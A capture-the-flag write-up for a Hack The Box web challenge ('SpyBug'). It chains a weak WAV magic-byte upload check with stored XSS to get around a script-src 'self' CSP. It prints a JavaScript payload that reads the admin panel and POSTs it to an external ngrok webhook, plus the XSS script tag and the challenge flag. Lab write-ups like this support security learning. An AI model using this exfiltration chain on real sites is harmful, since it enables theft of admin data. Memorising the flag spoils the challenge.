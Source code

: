 One more login screen for the next challenge:

![image](https://user-images.githubusercontent.com/80063008/227709302-e2c0023c-fb15-466e-936e-4dccb557ccc1.png)

At first I analyzed the `spybug-agent.go` file which was provided initially. The full source code was provided later. From the agent code I could figure out some endpoints and some functionality.

![image](https://user-images.githubusercontent.com/80063008/227709560-d1e89851-c4f5-4121-868f-745b3d9ee05b.png)

For example, we have a `/agents/register` endpoint. This gives us two UUIDs. An identifier and a token.

![image](https://user-images.githubusercontent.com/80063008/227709545-db9b2da0-8d21-48b7-b9f7-7ac1cf6b7e9e.png)

On the `/agents/check/<identifier>/<token>` endpoint we can check the agent we just registered but we get nothing more than an OK.

![image](https://user-images.githubusercontent.com/80063008/227709622-5d527a9e-6103-46c3-b3e5-6f43ea1372b8.png)

We also have a POST request to `/agents/details/<identifier>/<token>` which takes some user input. We can send a "hostname", "platform", "arch".

![image](https://user-images.githubusercontent.com/80063008/227709678-6edeb7d1-bc6c-40c3-ba67-9b9037a61008.png)

I built that request in BurpSuite but again, we get nothing more than an OK:

![image](https://user-images.githubusercontent.com/80063008/227709738-14f7f831-58f2-4ef5-8c95-09d3f12423a1.png)

We have another function to an `/agents/upload/<identifier>/<token>` endpoint.

![image](https://user-images.githubusercontent.com/80063008/227709797-cfaab1dd-ccf6-441a-803f-16f30ca4606c.png)

This expects us to send a POST request to upload a wave file within a form-data request with the filename being "recording"

![image](https://user-images.githubusercontent.com/80063008/227709827-6835c5fb-27b7-46bd-bc18-49da270f0bc4.png)

I tried to do the multipart/form-data upload but I kept getting a `Bad Request` response. That is until they released the rest of the source code and I noticed this in `control-panel/routes/agents.js`:

![image](https://user-images.githubusercontent.com/80063008/227710300-8d7738e0-8883-471d-a2ae-baf7c5fa3b77.png)

The server expects a specific "audio/wave" mimetype and the ".wav" extension. We also notice another important part in the same file. There's an additional filter to the file upload.

![image](https://user-images.githubusercontent.com/80063008/227710128-a82d1000-9ddf-4f5b-a206-8bb98f503ab7.png)

The server checks the file header to ensure that it is a wave file. Or at least that is the intent. What it actually does is it only checks if the specific hex values are located anywhere in the file. It's not actually checking the file header. This means we can send a request like this and we no longer get a "Bad Request" error message. We actually get an UUID assigned to the file upload:

![image](https://user-images.githubusercontent.com/80063008/227710411-b952e25a-d000-4203-9b40-010114f93ad6.png)

In the `control-panel/utils/adminbot.js` we also notice that there's a bot accessing the admin panel. 

![image](https://user-images.githubusercontent.com/80063008/227710967-3b1b4a2f-aa63-4492-8139-19e7880bc324.png)

It doesn't click on anything though. At this point I wanted to have a look at the admin panel myself. I modified the `build-docker.sh` file to put a password in the ADMIN_SECRET variable:

![image](https://user-images.githubusercontent.com/80063008/227710551-35a4ff30-f2ec-4041-bc50-a8c380578f5c.png)

I logged in and now can see the admin panel with some content that I passed at a certain point. A POST request sending details and an upload:

![image](https://user-images.githubusercontent.com/80063008/227710597-595a083e-5c4a-42d1-9b29-2542621ec693.png)

Inspecting the audio controls, we can also see where it's taking it from:

![image](https://user-images.githubusercontent.com/80063008/227710902-bac8c224-804a-4fc1-96d0-8317f4a9d8be.png)

Now that I can see what the bot would see. I tried a simple XSS payload in the hostname field but I got blocked by the CSP:

![image](https://user-images.githubusercontent.com/80063008/227710622-7992f5a2-0f50-4bb8-83f1-b379a6989f54.png)

Let's take a closer look at that CSP. 

![image](https://user-images.githubusercontent.com/80063008/227710634-fe67ad11-a1fa-4001-8a8b-a567b48de469.png)

We have `script-src 'self'` but there's also `object-src 'none'`. After doing some research on various CSP bypasses, I found this very helfpul blog: https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d

This blog presents various scenarios, including Scenario 5 which seems very applicable to us:

![image](https://user-images.githubusercontent.com/80063008/227710708-757af160-020c-47ee-bd9d-15092f87e37e.png)

Now it all makes sense. We have unsanitized input in the /agents/details endpoint and file upload which can be bypassed in /agents/upload. We should have what we need. 

**Step 1**: Register a new agent to get identifier and token:
![image](https://user-images.githubusercontent.com/80063008/227710772-66c30cc6-9462-4a36-b512-1abcca1679a7.png)

**Step 2**: Upload file with recording name in the form-data, .wav extension, audio/wave mimetype and the wav magic header anywhere in the file (it doesn't check for the magic bytes to be the first ones). I used // to comment it out in the javascript code so that javascript parsing won't error out. The javascript simply accessing the admin panel grabbing the response and sending it to our webhook.

```javascript
var target = 'http://localhost:1337/panel';
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;
var attack = 'https://5816-188-24-131-248.eu.ngrok.io';
var req2 = new XMLHttpRequest();
req2.open('POST', attack, false);
req2.send(response);
```
![image](https://user-images.githubusercontent.com/80063008/227710815-e6915a95-2557-4dab-a0a1-6a63d90ca7ae.png)

**Step 3**: Post details with the UUID filename within the XSS payload to load the javascript from the local source thus fulfilling the script-src "self" object-src 'none' CSP.

```
<script src=\"/uploads/076095a0-7b50-4dac-b6eb-9900062c5c68\"></script>
```
After a short while, waiting for the bot eagerly, we get the flag:

![image](https://user-images.githubusercontent.com/80063008/227710858-fda45a4f-9f88-42e6-849c-149e25fc1eb5.png)

All in all, this one was my favourite challenge as it presented multiple hurdles and steps where we really needed to think outside the box. Attention to detail every step of the way was important and I enjoyed that.

HTB{p01yg10t5_4nd_35p10n4g3}